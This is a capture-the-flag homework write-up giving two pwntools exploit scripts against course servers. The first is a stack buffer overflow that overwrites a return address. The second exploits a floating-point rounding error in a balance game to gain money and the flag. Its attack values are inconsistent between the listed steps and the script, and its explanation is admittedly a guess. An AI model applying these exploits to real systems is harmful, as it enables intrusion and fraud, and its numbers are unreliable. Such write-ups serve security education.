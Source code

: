 ### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65534)
target = p64(0x401195)

r.sendline(b'a'*24 + target)

r.interactive()
```

## The floating Aquamarine 💀 (misc)
Use **floating point error** to get money.

### Analysis
```
1. 1000000000: -8888000000(expect) => -8887999488(real) (diff 512)
2. -1000: -8887911120(expect) ==> -8887910400(real)  (diff 720)
3. -1000: -8887822240(expect) ==> -8887821312(real) (diff 928)
4. -99997000: 0(expect) ==> 1024(real) (diff 1024)
```

I find (8887999488 - 8887910400) == (8887910400 - 8887821312) == 89088, which (88.88*10000 == 88880) != 89088.
I don't know the accurate reason why I do 1~4 will make the balance crease $1024, but I think that those operations of floating point will cause **the "Exponent" bit creases one bit**.

### Attack
My payload:
1. 100000000
2. -1000
3. -1000
4. -90008000
5. goto 1.
Everytime you do 1~4, you will get $1024.
When you do it three times repeatly, you will get $3072 and flag!

### Payload
```python
#!/usr/bin/python3

from pwn import *

r = remote('hw00.zoolab.org', 65535)

def qq():
	r.sendline('100000000')
	r.sendline('-1000')
	r.sendline('-1000')
	r.sendline('-99998000')

qq()
qq()
qq()

r.interactive()
```
